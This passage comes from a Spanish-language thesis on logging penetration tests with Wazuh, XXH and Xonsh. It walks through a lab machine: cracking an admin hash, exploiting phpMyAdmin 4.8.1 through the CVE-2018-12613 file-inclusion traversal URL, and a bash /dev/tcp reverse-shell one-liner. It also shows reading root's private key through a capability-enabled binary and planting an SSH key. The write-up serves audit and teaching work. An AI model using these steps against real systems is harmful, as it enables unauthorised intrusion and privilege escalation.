  
\includegraphics[width=\textwidth]{imagenes/wazuh1.png}
  \caption{Ejemplo de la indexación y registro de acciones llevadas a cabo en el host de pentesting por Wazuh utilizando Offsh. En ella podemos apreciar claramente qué comandos se han ejecutado durante esta parte de la auditoría: gobuster para la enumeración de directorios y ficheros, \textit{hasid} para identificar el tipo de hash de la contraseña (previamente escrita en un fichero usando vim) y \textbf{John} para descifrar la contraseña.}
   \label{wazuh_john}
\end{figure}

\section{Explotación de phpmyadmin}

Una vez dentro del servidor, sería relativamente sencillo encontrar los credenciales de acceso del administrador que, pese a estar encriptados, pueden ser desencriptados utilizando herramientas como \textbf{John the Ripper}. En la Figura \ref{wazuh_john} podemos ver cómo se han ejecutado varios comandos para descifrar la contraseña, seleccionando cada uno de esos comandos en la app de Wazuh podríamos además visualizar su output así como información sobre cuando han sido ejecutados, por quién y en qué directorio.

Una vez descifrada la contraseña del administrador (\textit{Stella}), lo más lógico sería tratar de obtener una consola de comandos por medio de una \textbf{conexión SSH}. Sin embargo, esto no es posible ya que el servidor está configurado para no aceptar login por contraseña (solo podríamos acceder con una clave privada). Así que en una situación así deberíamos buscar otra alternativa para conseguir una consola de comandos operativa en el servidor. Sabemos que existe un servicio de \textbf{phpmyadmin}, podemos tratar de explotarlo.

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/phpmyadmin_version.png}
  \caption{Captura de pantalla de la página inicial de phpmyadmin cuando nos identificamos con los credenciales mencionados anteriormente. En ella se puede apreciar claramente que la versión del software instalada es  4.8.1}
   \label{phmyadminverison}
\end{figure}

En la página inicial del servicio (ver Figura \ref{phmyadminverison}) podemos localizar que la versión instalada es 4.8.1, y, por tanto, tratar de buscar vulnerabilidades en ella.


\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/searchexploit1.png}
  \caption{Ejemplo del uso del comando \textbf{searchsploit} para detectar posibles vulnerabilidades en el software de phpMyAdmin. Existen dos métodos distintos de \textbf{Local File Inclusion} que se puede explotar para conseguir la ejecución de \textbf{código arbitrario} dentro del servidor. Usaremos esto para crear una shell reversa y obtener una consola de comandos dentro del servidor. Nos serviremos de la referencia y descripción de esta vulnerabilidad del \cite{cve12613} para el CVE-2018-12613, así como una entrada en la \textbf{exploit-db} para este CVE: \cite{exploitdb2}}
   \label{searchexploit}
\end{figure}

A partir de la información descrita en \cite{cve12613} y \cite{exploitdb2} vamos a utilizar un pequeño script PHP para crear un \gls{reverse_shell}. 

Básicamente, lo que explica la entrada de la exploit-db para este CVE es que se puede jecutar una petición a la base de datos que permite cargar un fragmento de código, este caso, con el script para el shell reverso, y obtener un token para ejecutarlo. 

Lo que hay que hacer es crear una consulta SQL con el código PHP que se desea ejecutar y entonces ir al siguiente enlace: \url{HTTP://datasafe.votenow.local/index.php?target=db_sql.php\%253f/../../../../../../../../var/lib/php/session/sess_<id_de_de_sesion>}. \textbf{Nota: el enlace disponible en la web de exploitdb está mal, tiene escrito \textit{sessions} en lugar de \textit{session} y da un error si se utiliza tal cual}.

En la figura \ref{arbitrarycode} se ve un ejemplo de como ejecutar un comando para obtener información de la versión de PHP del sistema. En la figura \ref{reverse}, se muestra un ejemplo de la ejecución de un \gls{reverse_shell} utilizando un código extraido de una web de preparación para la OSCP en la que se comparten algunas ideas para crear reverse shells con una sola línea de código. \footnote{\url{HTTPs://oscp.infosecsanyam.in/shells/linux-reverse-shell-one-liner}}

\begin{lstlisting}[language=php,caption={Reverse shell script}, label=rshelll]
<?php 
system("bash -i >& /dev/tcp/192.168.122.96/666 0>&1; 
exit;
?>
\end{lstlisting}

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/arbitrarycode.png}
  \caption{Captura de pantalla en la que se aprecia el resultado obtenido de seguir las instrucciones descritas en exploitdb. Básicamente he ejecutado un comando de prueba (phpinfo()) en el servidor y al acceder a la URL descrita en el exploit con el token adecuado he obtenido el output de dicho comando. A continuación, reemplazando ese `código arbitrario' por otro en el que obliguemos al servidor PHP a crear una shell reversa, podremos tomar el control de la máquina.}
   \label{arbitrarycode}
\end{figure}



\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/revershell.png}
  \caption{Ejemplo de cómo crear un shell reverso usando el exploit del CVE 2018-12613. Se ha ejecutado un servicio de netcat en Kali linux para que escuche en el puerto 1234 y luego se ha ejecutado una petición a la base de datos SQL para que se guarde un fragmento de código PHP en el que se ejecuta una llamada al sistema para ejecutar un shell (bash) sobre un socket TCP a la conexión abierta en Kali Linux. De esta forma se puede \textbf{obtener un shell en el host que pretendemos atacar.}}
   \label{reverse}
\end{figure}

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/gotshell.png}
  \caption{En esta imagen se observa el shell conseguido en el host de Presidential. Como se puede ver, es un shell bastante sencillo, no tiene colores ni auto-completado, comandos como vim no funcionan bien porque están hechos para alterar la visualización en el shell (ver figura \ref{vims}) y tampoco se puede usar el cursor hacia arriba para ejecutar el comando anterior de nuevo, entre otros.}
   \label{reverse}
\end{figure}

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/vimreshell.png}
  \caption{Ejemplo de uso de un comando con una visualización especial en el terminal como es el caso de vim. Se puede apreciar que la visualización de vim no es en pantalla completa como debería, que caracteres que deberían aparecer en una barra aparte aparecen sobre el test (`:w'), etc.}
   \label{vims}
\end{figure}



\section{Escalada de privilegios}

Una vez conseguida una shell dentro del host vulnerable, el paso siguiente sería realizar alguna acción para escalar privilegios en el mismo. 

Antes que nada, y para que todo lo que se ejecute dentro de el host remoto quede \textbf{registrado por Offsh}, debemos establecer una conexión por SSH (a través de xxh) para abrir una consola xonsh en el host Presidential. Para ello, bastaría con añadir (usando el shell reverso) una clave pública en el directorio SSH del usuario administrator y luego establecer una conexión con él.



Primero, utilizando la contraseña del usuario Admin se puede conseguir un shell con un usuario que no sea el de phpmyadmin. A continuación, se puede utilizar el comando \textbf{getcap} para buscar archivos que tengan capacidades o permisos especiales que nos permitirán sobrepasar algunas barreras de seguridad como los permisos de lectura de la clave privada del usuario root.

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/get_root_key.png}
  \caption{En esta captura se muestran los comandos ejecutados para obtener la clave privada del usuario root en la máquina auditada. Se ve claramente como al hacer uso de la herramienta XXH obtenemos un shell con xonsh (y toda la configuración necesaria para que funcione como se espera) dónde, entre otros, distinguimos algunos detalles visuales como que se pintan los nombres de usuario, hostnames y paths con distintos colores (para que sean fáciles de diferenciar, ver marcas 1,2, 3 y 4). Además, todos estos comandos que ejecutemos estarán siendo registrados por Wazuh e indexados en el motor de búsqueda de Elasticsearch}
   \label{getroot}
\end{figure}

En la figura \ref{getroot} se muestran los comandos a ejecutar para conseguir la clave privada del usuario root: lo que se hace es detectar que existe un fichero ejecutable con la característica $cap\_dac\_read\_search$ (que significa que puede usarse para ignorar la ausencia de permisos de lectura de un fichero). En este caso concreto se trata de un programa que se utiliza para comprimir archivos. La vulnerabilidad a explotar radica en que al comprimir los archivos se cambian sus permisos y estos pueden ser leídos si después se descomprimen utilizando otro comando cualquiera como \textbf{tar}.

En este caso se ha comprimido y descomprimido la clave privada del usuario root y después se ha mostrado por pantalla con lo que se consigue un fácil acceso por SSH al usuario con permisos de administrador.


En esta etapa queda patente \textbf{la importancia de utilizar un mecanismo como XXH para el registro de los logs}, ya que hay secciones dentro de un tests de penetración que tienen lugar dentro de hosts remotos a los que se consigue acceso (escalada de privilegios, borrado de huellas, extracción de datos y contraseñas...) que \textbf{pueden ser registrados y analizados gracias a Xonsh y XXH} con cierta facilidad.

En este punto también queda patente un detalle: para conseguir la consola XXH lo que se ha hecho ha sido usar un shell reverso para añadir una clave pública maliciosa al servidor de forma que se pueda acceder a este por ssh usando Xonsh y XXH, sin embargo, el hecho de introducir la clave maliciosa no ha sido registrado puesto que no se ha hecho realizando estas herramientas. Esta idea sugiera que \textbf{sería interesante crear un módulo o un script para la generación de un shell reverso utilizando Xonsh, XXH y la imagen desarrollada con Offsh}

\section{Análisis del rendimiento de Wazuh}

\begin{figure}[!hbt]
  \centering
